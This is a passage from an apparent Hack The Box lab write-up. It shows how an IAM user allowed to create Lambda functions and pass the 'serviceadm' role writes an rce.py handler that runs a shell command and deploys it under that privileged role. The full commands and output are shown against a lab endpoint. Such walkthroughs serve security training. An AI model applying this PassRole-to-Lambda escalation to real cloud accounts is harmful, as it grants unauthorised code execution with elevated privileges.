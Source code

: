 Going back to the `.yml` file, we can see that this user can create and invoke `lambda` functions using the `serviceadm` role context for a period of time
```
  WillUser:
    Type: 'AWS::IAM::User'
    Properties:
      UserName: will
      Path: /
      Policies:
        - PolicyName: lambda-policy
          PolicyDocument:
            Version: 2012-10-17
            Statement:
              - Effect: Allow
                Action:
                  - 'Lambda:CreateFunction'
                  - 'Lambda:InvokeFunction'
                  - 'IAM:PassRole'
                Resource: ['arn:aws:lambda:*:*:function:*','arn:aws:iam::*:role/serviceadm']  
```

We first create an `rce.py `file that contains a lambda_handler function that will execute the id command, and then we create an `rce.zip` file that contains the command
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ cat rce.py 
import os

def lambda_handler(event, context):  
    return os.popen("id").read()

┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ zip rce.zip rce.py
  adding: rce.py (deflated 7%)

```

Now we create a `lambda` function that will run using `python3.8` and use the `serviceadm` `rce.lambda_handler` role from the`rce.zip` file as the payload
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ aws --endpoint-url http://cloud.amzcorp.local lambda create-function --function-name id --runtime python3.8 --role "arn:aws:iam::000000000000:role/serviceadm" --handler rce.lambda_handler --zip-file fileb://rce.zip | jq
{
  "FunctionName": "id",
  "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:id",
  "Runtime": "python3.8",
  "Role": "arn:aws:iam::000000000000:role/serviceadm",
  "Handler": "rce.lambda_handler",
  "CodeSize": 238,
  "Description": "",
  "Timeout": 3,
  "LastModified": "2025-08-01T12:05:48.824+0000",
  "CodeSha256": "mAT2gbuP1o+aLWkpr6uSlm2grU6aJuqrXUm9wkkZJZo=",
  "Version": "$LATEST",
  "VpcConfig": {},
  "TracingConfig": {
    "Mode": "PassThrough"
  },
  "RevisionId": "789c55e9-f43d-4bf6-bb24-d298df4af060",
  "State": "Active",
  "LastUpdateStatus": "Successful",
  "PackageType": "Zip"
}
```